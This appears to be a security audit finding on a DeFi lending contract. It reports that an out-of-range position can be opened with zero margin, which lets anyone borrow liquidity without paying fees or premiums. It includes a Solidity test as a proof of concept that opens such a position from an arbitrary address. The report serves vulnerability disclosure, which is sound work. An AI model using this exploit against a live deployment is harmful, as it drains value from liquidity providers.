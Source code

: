 Note: `amountFromBorrowed + marginFrom == 0`, so `fees ==0`

To open a new Position, borrow Liquidity, but without paying any fees. It's basically a no-cost loan.

### Impact

`out_of_price` tokenId, due to the no-cost loan, might lead to the following issues:

1.  Malicious occupation of Liquidity
2.  Since both `token0Premium/token1Premium` are 0, the liquidator will not execute `liquidatePosition()`, because there is no profit.
3.  Since both `token0Premium/token1Premium` are 0, `LP` cannot get fees, but the borrower might still be able to profit.

### Proof of Concept

The following test case demonstrates that if it is `out_of_price`, anyone can borrow at no cost.

Add to `OpenPosition.t.sol`:

```solidity
    function testZeroFees() public {
        _setupUpperOutOfRange();
        uint128 borrowerLiquidity = _liquidity / _borrowerLiquidityPorition;
        console.log("borrowerLiquidity:",borrowerLiquidity);
        address anyone = address(0x123999);
        vm.startPrank(anyone);
        particlePositionManager.openPosition(
            DataStruct.OpenPositionParams({
                tokenId: _tokenId,
                marginFrom: 0,
                marginTo: 0,
                amountSwap: 0,
                liquidity: borrowerLiquidity,
                tokenFromPremiumPortionMin: 0,
                tokenToPremiumPortionMin: 0,
                marginPremiumRatio: type(uint8).max,
                zeroForOne: false,
                data: ""
            })
        );
        vm.stopPrank();
        (
            ,
            uint128 liquidity,
            ,
            uint128 token0Premium,
            uint128 token1Premium,
            ,
            ,            
        ) = particleInfoReader.getLien(anyone, 0);
        console.log("liquidity:",liquidity);
        console.log("token0Premium:",token0Premium);
        console.log("token1Premium:",token1Premium);
    }
```
